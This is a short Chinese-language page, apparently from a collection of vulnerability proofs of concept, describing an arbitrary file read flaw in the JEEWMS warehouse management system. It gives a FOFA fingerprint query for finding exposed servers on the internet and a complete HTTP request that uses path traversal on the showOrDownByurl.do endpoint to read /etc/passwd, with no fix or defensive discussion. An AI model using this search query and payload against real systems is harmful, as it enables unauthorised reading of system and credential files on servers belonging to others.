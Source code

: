 ## JEEWMS仓库管理系统任意文件读取漏洞

## fofa
```
body="plug-in/lhgDialog/lhgdialog.min.js?skin=metro"或者fid="cC2r/XQpJXcYiYFHOc77bg=="
```
![image](../../images/0fc82b26-4cd9-4924-b461-aa64aef53160.png)

## poc
```
GET /systemController/showOrDownByurl.do?down=&dbPath=../../../../../../etc/passwd HTTP/1.1
Host: ip:port
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image](../../images/490b9323-3a5c-4f4a-8ca0-24e2f1ecbf6d.png)
